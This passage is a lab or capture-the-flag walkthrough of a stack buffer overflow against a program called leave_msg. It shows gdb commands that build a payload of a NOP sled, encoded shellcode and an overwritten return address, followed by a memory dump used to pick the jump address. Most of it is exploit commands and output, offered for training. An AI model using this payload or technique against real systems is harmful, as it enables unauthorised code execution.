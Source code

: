 ![combined](/assets/images/overflow/nop.svg)

If you recall from before we need 2060 bytes to reach the return address which we need to overwrite. lets just write it with Bs so we know we are in the right track:

```sh
(gdb) run $(python -c print'"\x90" * 1965 + "\xd9\xc6\xd9\x74\x24\xf4\xb8\x77\xd5\x11\x7f\x5e\x29\xc9\xb1\x12\x31\x46\x17\x83\xc6\x04\x03\x31\xc6\xf3\x8a\x8c\x33\x04\x97\xbd\x80\xb8\x32\x43\x8e\xde\x73\x25\x5d\xa0\xe7\xf0\xed\x9e\xca\x82\x47\x98\x2d\xea\x28\x5a\xce\xeb\xbe\x58\xce\xc8\x17\xd4\x2f\xbe\x0e\xb6\xfe\xed\x7d\x35\x88\xf0\x4f\xba\xd8\x9a\x21\x94\xaf\x32\xd6\xc5\x60\xa0\x4f\x93\x9c\x76\xc3\x2a\x83\xc6\xe8\xe1\xc4"  + "B" * 4')
Starting program: /home/htb-student/leave_msg $(python -c print'"\x90" * 1965 + "\xd9\xc6\xd9\x74\x24\xf4\xb8\x77\xd5\x11\x7f\x5e\x29\xc9\xb1\x12\x31\x46\x17\x83\xc6\x04\x03\x31\xc6\xf3\x8a\x8c\x33\x04\x97\xbd\x80\xb8\x32\x43\x8e\xde\x73\x25\x5d\xa0\xe7\xf0\xed\x9e\xca\x82\x47\x98\x2d\xea\x28\x5a\xce\xeb\xbe\x58\xce\xc8\x17\xd4\x2f\xbe\x0e\xb6\xfe\xed\x7d\x35\x88\xf0\x4f\xba\xd8\x9a\x21\x94\xaf\x32\xd6\xc5\x60\xa0\x4f\x93\x9c\x76\xc3\x2a\x83\xc6\xe8\xe1\xc4"  + "B" * 4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
### Finding the Return Address
Perfect, the return address is now BBBB but we should instead use a real address. How can we find the correct return address? Ideally it should be somewhere in the nop sled so it slides into our shellcode. Lets find where our nopsled starts.

```sh
(gdb) x/2000xb $esp+2400
0xffffd600:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd608:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd610:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd618:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd620:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd628:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd630:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd638:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd640:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd648:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd650:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd658:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd660:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd668:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd670:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd678:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd680:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd688:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0xd9
0xffffd690:	0xc6	0xd9	0x74	0x24	0xf4	0xb8	0x77	0xd5
```
